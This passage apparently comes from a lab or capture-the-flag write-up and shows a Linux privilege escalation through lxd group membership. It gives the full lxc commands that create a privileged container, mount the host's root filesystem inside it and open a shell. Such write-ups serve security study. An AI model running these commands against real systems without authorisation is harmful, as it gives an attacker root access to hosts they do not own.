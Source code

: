 ``` {.python .numberLines}
```

\newpage
## Phase #3: Privilege Escalation
1\. From the output of command `id`, we see that the user `oscp` is a member of `lxd` group. We can exploit this misconfiguration to create a dummy container that mounts the local file system and gain access to all privileged files. But we see that the `lxc` command for this to work is not found in our current environment path:  
``` {.python .numberLines}
lxc init ubuntu:16.04 test -c security.privileged=true
  -bash: lxc: command not found

```

![writeup.privesc.steps.1.1](./screenshot09.png)  

2\. We locate the file and use it's absolute path to create the container. This time we see another error about storage pool. The error message helpfully points us in the right direction and we need to initialize LXD first. We use the suggested command with the absolute path and choose default settings when prompted for a change:  
``` {.python .numberLines}
/snap/bin/lxd init
/snap/bin/lxc init ubuntu:16.04 test -c security.privileged=true
/snap/bin/lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
/snap/bin/lxc start test
/snap/bin/lxc exec test bash

```

![writeup.privesc.steps.2.1](./screenshot10.png)  
